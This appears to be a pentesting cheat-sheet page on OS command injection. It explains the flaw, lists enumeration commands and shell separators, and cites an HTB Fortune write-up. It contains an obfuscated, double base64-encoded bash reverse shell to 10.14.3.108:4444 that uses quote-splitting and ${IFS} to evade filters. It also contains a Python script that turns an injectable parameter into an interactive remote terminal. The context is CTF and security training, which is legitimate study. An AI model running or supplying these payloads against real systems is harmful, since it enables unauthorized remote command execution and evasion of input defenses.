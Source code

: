 # OS Command Injection

## OS Command Injection Information

OS command injection (also known as shell injection) is a web security flaw that allows an attacker to run arbitrary operating system (OS) commands on the server that is hosting an application, compromising the program and all of its data.

### Useful commands <a href="#useful-commands" id="useful-commands"></a>

When you've discovered an OS command injection vulnerability, it's always a good idea to run a few test commands to learn more about the system you've infiltrated. The following is a list of commands that can be used on both Linux and Windows platforms:

| Purpose of command       | Linux         | Windows         |
| ------------------------ | ------------- | --------------- |
| Name of the current user | `whoami`      | `whoami`        |
| Operating system         | `uname -a`    | `ver`           |
| Network configuration    | `ifconfig`    | `ipconfig /all` |
| Network connections      | `netstat -an` | `netstat -an`   |
| Running processes        | `ps -ef`      | `tasklist`      |

## Enumerating OS Command Injection

OS command injection attacks can be carried out via a variety of shell metacharacters. Command separators are a set of characters that allow commands to be chained together. On both Windows and Unix-based systems, the following command separators work:

* `&`
* `&&`
* `|`
* `||`

The following command separators work only on Unix-based systems:

* `;`
* Newline (`0x0a` or `\n`)

Backticks or the dollar character can also be used on Unix-based systems to perform inline execution of an injected command within the original command:

* `` ` `` injected command `` ` ``
* `$(` injected command `)`

It's worth noting that the various shell metacharacters have subtle differences in behavior that could affect whether they work in specific contexts and whether they allow in-band command output retrieval or are just effective for blind exploitation.

In the original command, the input that you control may appear within quote marks. In this case, you must terminate the quoted context (using " or ') before injecting a new command using appropriate shell metacharacters.

## Executing arbitrary commands

Bash reverse shell example:

```bash
echo "echo $(echo 'bash -i >& /dev/tcp/10.14.3.108/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
```

Now execute the generate output of the command above and try to execute it.\

# OS Command Injection Script

If there's an OS command injection vulnerability we can simulate terminal with python3:

```python
#!/usr/bin/python3

import requests
from bs4 import BeautifulSoup
from cmd import Cmd

class Terminal(Cmd):
    prompt = "terminal> "

    def default(self, args):
        resp = requests.post('http://10.10.10.127/select', data={"param_name": f"s;{args} 2>&1"}, proxies={"http": "http://127.0.0.1:8080"})
        soup = BeautifulSoup(resp.text, 'html.parser')
        print(soup.find("pre").text.strip())

term = Terminal()
term.cmdloop()
```

Execute the script:

```sh
root@kali# ./fortune_shell.py 
terminal> pwd
/var/www/appname/
```

Reference from [0xdf HTB Fortune writeup](https://0xdf.gitlab.io/2019/08/03/htb-fortune.html#rce-as-www-data)